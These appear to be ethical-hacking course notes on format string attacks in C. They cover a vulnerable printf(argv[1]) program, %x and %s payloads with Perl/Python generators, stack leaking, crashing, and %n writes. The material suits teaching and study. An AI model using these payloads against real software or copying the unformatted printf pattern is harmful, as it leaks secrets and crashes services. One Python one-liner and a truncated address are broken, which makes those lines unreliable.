 # EHD Topic 15 - Format String Attack

###### tags: #EHD #Theory

## Table of Contents
```toc
```

## Format String
- Examples:
	- `Alert()`
	- `MsgBox()`
	- `System.out.printIn()`
	- `printf()`
- Takes whatever strings specified and displays them in the output console

**Example Problem**
- `formatit.c`
```c
// the program prints out the first argument
int main(int argc, char *argv[])
{
	printf("%s", argv[1]);
	return 0;
}

// when the format string is missing:
int main(int argc, char *argv[])
{
	printf(argv[1]);
	return 0;
}
// the program can still print out the first argument but will be vulnerable to a format string attack
```
- If the code `formatit` is run with `%s` or `%x` in the argument, the program will print the value on top of the stack

![300](https://i.imgur.com/LJL8mQj.png)

### Using Perl or Python to Print Characters
- In format string attacks, we may need to repeat a sequence of characters repeatedly
```
./formatit %x.%x.%x.%x.%x.%x.%x.%x
```
- Using Perl or Python can help make this process easier
```
./formatit $(perl -e 'print("%x." x 8)')
./formatit $(python -c 'print("%x." * 8)')
```
- Perl and Python can also print any character using its ASCII code by using `\xNN` where `NN` is the ASCII code of the character in hexadecimal
```
./formatit $(perl -e 'print("%x." x 4, "\x61\x62")')
./formatit $(python -c 'print("%x." ** 4 + chr(0x61)')
```

## Reading the Stack
- If the stack looks like this:
```
18 44 f9 77 c2 44 f9 77 
```
- Then `formatit hello,%x,%x` would return the following:
```
# returns the first two words in the stack (little endian order is used)
hello,77f94418,77f944c2
```
- Potentially, it can read the entire stack
- Can find sensitive information such as passwords, keys which can also be found in the stack

## Crashing the Application
- If running `formatit hello,%x,%x,%x`, it returns the following:
```
77f94418,77f944c2,0012fe10
```
- Application can be crashed by reading the memory content pointed to by the address in the stack
```
formatit %s%s%s
```
- This will attempt to read the memory pointed by `77f94418, 77f944c,0012fe10`
- Application will crash as access to memory address to `0012fe10` is prohibited

## Writing to Stack
- `%n` writes the number of characters formatted by the `printf` function to the specified memory address
